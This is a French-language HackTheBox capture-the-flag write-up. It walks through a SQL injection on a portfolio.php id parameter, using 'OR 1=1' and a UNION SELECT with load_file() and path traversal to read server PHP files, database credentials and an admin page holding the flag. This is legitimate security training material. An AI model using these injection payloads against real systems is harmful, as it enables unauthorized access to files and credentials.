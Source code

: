 # HackTheBox - Freelancer Writeup

Voici le thème utilisé pour le challenge : <a href="https://startbootstrap.com/themes/freelancer/">Freelancer Bootstrap</a><br /><br />
Comme à mes habitudes, je commence par faire un petit tour de la page et je vois rapidement la section "Contact"<br />
Je tente donc d'injecter du code (pour arriver à une XSS (pourquoi pas ahah)) 
<img src="https://i.imgur.com/Z5k0E29.png"/>
Après multiples tentatives, toujours rien, le champ n'est pas vulnerable<br />
Je tente donc de trouver un autre moyen, je fais un CTRL+U, après quelques secondes je trouve un fichier intéressant
<img src="https://i.imgur.com/bzJSZYM.png"/><br />
Je décide donc de modifier l'id
```diff
portfolio.php?id=1 (Log Cabin 1)
portfolio.php?id=2 (Log Cabin 2)
portfolio.php?id=3 (Log Cabin 3)
portfolio.php?id=4 (ne fonctionne pas)
```
Alors, c'est le moment de savoir.. SQLi ou pas SQLi ? <br />
```diff
portfolio.php?id=3 OR 1=1#
```
et là.... Les 3 s'affichent !!<br />
<img src="https://i.imgur.com/ZhtFKYR.png"/><br />
Petit test pour afficher la version (avec version())
<img src="https://i.imgur.com/AjAmt5p.png"/><br />
Bon, il sagit bien d'une SQLi, le but étant d'attraper le FLAG, j'ai eu l'idée d'utiliser LOAD_FILE<br />
<img src="https://i.imgur.com/GuTFKX4.png"/><br />
LOAD_FILE fonctionne bien ! <br />
Maintenant, il faut trouver le bon chemin ... ^_^<br />
Après quelques minutes de recherche, voici ma requête avec le chemin <br />
```diff
portfolio.php?id=3 union select 1,load_file("../../../../../../var/www/html/portfolio.php"),3-- -
```
La page s'affiche correctement, suffit de CTRL+U ! <br />
<img src="https://i.imgur.com/h56LXRG.png"/><br />
Voici la partie intéressante
```diff
<?php
// Include config file
require_once "administrat/include/config.php";
?>
```
Au final, rien d'intéressant, juste les informations de la BDD
```diff
<?php
$link = new mysqli("localhost", "db_user", "Str0ngP4ss", "freelancer");
```
Evidement, j'ai donc été plus bas
```diff
load_file("../../../../../../var/www/html/administrat/index.php")
```
Voici la partie intéressante de la page : 
```diff
<?php
// Initialize the session
session_start();
 
// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
  header("location: panel.php");
  exit;
}

(pour faire simple, c'est une condition qui vérifie que $_SESSION["loggedin"] soit bien active et qu'elle soit true)
Nous avons donc ici un systeme de connexion basique, si tu es déjà connecté, ($_SESSION["loggein"] active et true) tu es redirigé sur panel.php
```
J'ai donc fouillé la page et surprise, Le FLAG ! <br />
<img src="https://i.imgur.com/oarpGmr.png"/><br />
J'ai aussi tenté d'utiliser INTO OUTFILE mais je n'avais pas les droits sauf dans /tmp 😬<br /><br />
Un challenge sympa et pas trop difficile à réaliser seul ou avec ses amis ! <br />
Challenge réalisé par : <a href="https://github.com/http-x-forwarded-for">HXFF</a> et <a href="https://github.com/Aaaaalpha">Alpha</a>
